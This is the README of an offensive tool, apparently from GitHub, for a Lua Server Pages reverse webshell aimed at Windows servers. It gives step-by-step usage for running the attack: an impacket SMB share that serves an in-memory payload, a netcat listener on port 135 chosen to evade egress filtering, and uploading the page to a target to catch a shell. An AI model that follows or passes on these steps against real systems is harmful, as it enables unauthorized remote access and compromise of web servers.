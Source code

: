 # LSP Reverse Shell
A Lua Server Pages reverse webshell for Windows. I noticed there was no '.lsp' webshell of any sort available online, so now there is.

Since the Lua sockets module (the traditional Lua reverse shell method) often isn't installed, this webshell opts instead to execute a reverse shell in-memory off of an SMB share. 

The reverse shell port is set to 135 to avoid any egress issues.

Be sure to install impacket, if it isn't already installed, since you'll need smbserver.py.
### Usage:
* ```git clone https://github.com/the-emmon/lsp-reverse-shell```
* ```cd lsp-reverse-shell```
* Change the IP address in 'rev.lsp' to your machine.
* ``` sudo smbserver.py SMB . -comment share -ts -debug -smb2support -username user -password 'pass' ```
* ```sudo nc -nlvp 135```
* Upload the 'rev.lsp' file, open the page, and you should immediately catch a shell.
